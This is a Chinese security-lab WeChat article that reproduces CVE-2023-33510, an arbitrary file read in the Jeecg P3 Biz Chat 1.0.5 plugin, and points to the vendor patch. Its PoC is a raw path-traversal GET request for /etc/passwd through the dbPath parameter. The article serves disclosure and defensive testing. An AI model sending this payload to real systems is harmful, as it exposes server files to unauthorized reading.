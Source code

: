 #  Jeecg P3 Biz Chat 任意文件读取漏洞(CVE-2023-33510)

原创 奥村燐  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 40 个

#POC 24 个

#网络安全 50 个

#漏洞 64 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  
  
 **本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![]()  
 **0x01漏洞介绍**  
  

jeecg是一个应用软件。一款基于代码生成器的智能开发平台，Jeecg P3 Biz Chat是Jeecg开源的一个在线聊天插件。

Jeecg P3 Biz Chat 1.0.5版本存在安全漏洞，该漏洞源于允许远程攻击者通过特定参数读取任意文件。

![]()  
 **0x02影响版本**  

Jeecg P3 Biz Chat 1.0.5版本（ **该插件使用较少** ）

![]()

  

  

![]()  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

 **Poc  **

  *   *   *   *   *   *   * 

    
    
    GET /chat/imController/showOrDownByurl.do?dbPath=../../../../../../etc/passwd HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36Connection: closeAccept: */*Accept-Language: enAccept-Encoding: gzip

GET复现请求

![]()

3.nuclei工具测试（漏洞不存在）

![]()

  

![]()  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://gitee.com/jeecg/jeecg-p3

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

